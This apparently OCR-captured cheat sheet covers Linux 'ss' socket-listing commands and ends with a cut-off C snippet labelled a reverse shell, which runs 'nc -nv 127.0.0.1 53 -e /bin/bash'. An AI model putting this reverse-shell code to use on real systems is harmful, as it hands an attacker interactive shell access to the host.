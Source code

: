 
** view established tcp connection only
ss -t
** view established udp connection only
ss -u


** what if i want to view listening sockets too. you just need to add the -a option
ss -t -a


** Filtering ss with TCP States
STATUS:
established
syn-sent
syn-recv
fin-wait-1
fin-wait-2
time-wait
closed
close-wait
last-ack
listening
closing


TCPv4
ss -4 state FILTER


example:
ss -4 state listening


TCPv6
ss -6 state FILTER


** Show connected sockets from specific address
ss dst 192.168.1.139




** view all listening ports and with no name resolution
ss -tuna




+++++++++++++++++++++++++++++++++++++
c code reverse shell c shell


#include <stdio.h>
#include <stdlib.h>


int main(void)
{
 system("nc -nv 127.0.0.1 53 -e /bin/bash");

